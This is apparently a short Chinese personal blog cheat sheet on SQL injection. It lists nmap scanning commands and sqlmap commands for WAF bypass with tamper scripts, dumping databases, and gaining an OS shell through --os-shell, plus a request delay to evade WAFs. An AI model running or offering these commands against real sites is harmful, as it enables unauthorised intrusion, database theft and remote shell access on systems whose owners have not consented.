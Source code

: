 ```yaml
---
title: SQL注入
categories: SQL注入
tags:
  - SQL注入
abbrlink: e73517db
date: 2018-07-04 12:52:31
---
```


**脚本小子之路,嘻嘻嘻**
<!-- more -->


## 0X00 扫描C段,和端口服务信息

>  nmap -sV -sT -Pn --open -v 地址或者IP

## 0X01 简单扫描端口服务信息

>  nmap -sV 地址或者IP

## 0X02 检查是否存在常见漏洞

>  nmap --script=vuln 地址或者IP

## 0X03 sqlmap默认配置

> --batch 从不询问用户输入，使用所有默认配置。

## 0X04 sqlmap绕过WAF

> -v 3 --dbs --batch --tamper "space2morehash.py"

 - space2morehash.py中可以替换space2hash.py或者base64encode.py或者charencode.py 都是编码方式

 - space2hash.py base64encode.py charencode.py

  
## 0X05 SQLMAP伪静态注入(1) 查找数据库

> -u "http://xxx.cn/index.php/Index/view/id/40.html" --dbs

## 0X06 SQLMAP注入点执行命令与交互写shell 

- 此处采用的是Linux系统

> sqlmap -u [url]http://192.168.159.1/news.php?id=1[/url] --os-cmd=ipconfig

- **获取shell**

> sqlmap -u [url]http://192.168.159.1/news.php?id=1[/url] --os-shell

## 0X07 判断网站是否为伪静态

> javascript:alert(document.lastModified)

- 1.弹出的时间和当前时间一样就是静态
- 2.弹出时间和当前时间不一样说明为伪静态

## 0X08 MSF连接数据库启用缓存系统

> 1. service postgresql start 开启数据库服务
> 2. 进入MSF过后,输入db_status查看连接状态
> 3. 重启MSF

## 0X09 sqlmapHTTP请求延迟避免WAF

> --delay  每次http(s)请求之间延迟时间，浮点数，单位为妙，默认无延迟，输入此参数，你会发现每个请求都会延迟3秒，当然数据库还是可以爆出来的。
